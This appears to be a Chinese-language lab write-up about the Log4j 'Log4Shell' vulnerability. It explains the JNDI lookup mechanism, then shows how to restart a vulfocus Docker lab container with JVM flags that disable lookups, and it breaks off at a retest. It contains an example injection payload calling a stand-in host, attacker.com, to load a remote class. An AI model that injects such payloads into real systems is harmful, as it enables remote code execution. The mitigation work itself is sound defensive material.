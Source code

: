 攻击者在用户输入（如 URL、Header、Body、参数等）中注入恶意的 JNDI 语句，例如：

```java
${jndi:ldap://attacker.com/exploit}
```

Log4j 在处理日志时会对 `${}` 进行解析，当 Log4j 解析类似 `${jndi:ldap://...}` 的字符串时，JNDI 通过 `InitialContext.lookup()` 加载对象：

```java
InitialContext ctx = new InitialContext();
Object obj = ctx.lookup("ldap://attacker.com/exploit");
```

➡️ 如果远程服务器返回了一个恶意的 Java 类，Java 将会直接加载和执行它，导致 RCE。

2.所以我们选择修复方式：通过**增加参数配置**

 ✔️ 禁用 `JNDI` 查找功能
 ✔️ 完全禁用 JNDI 加载
 ✔️ 禁用 `RMI` 和 `LDAP` 加载远程类
 ✔️ 禁用 DNS 缓存，防止基于 DNS 的利用
 ✔️ 在配置文件中明确禁用 JNDI 相关组件

在2.10以上版本的log4j中，提供了配置属性，这些配置可以配置在系统环境变量、JVM启动参数、log4j配置文件中，任意一个地方配置均可生效。

- 停止并删除原容器：

  ```
  docker stop romantic_ardinghelli
  docker rm romantic_ardinghelli
  ```

- 添加参数配置启动容器

  ```
  docker run -d --name log4shell \
  -p 22220:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  java -Dlog4j2.formatMsgNoLookups=true \
  -Dcom.sun.jndi.rmi.object.trustURLCodebase=false \
  -Dcom.sun.jndi.ldap.object.trustURLCodebase=false \
  -Dsun.net.inetaddr.ttl=0 \
  -Dsun.net.inetaddr.negative.ttl=0 \
  -jar /demo/demo.jar
  ```

- 与之前搭建好的waf搭配使用

- 进行漏洞利用

  常规利用失败：
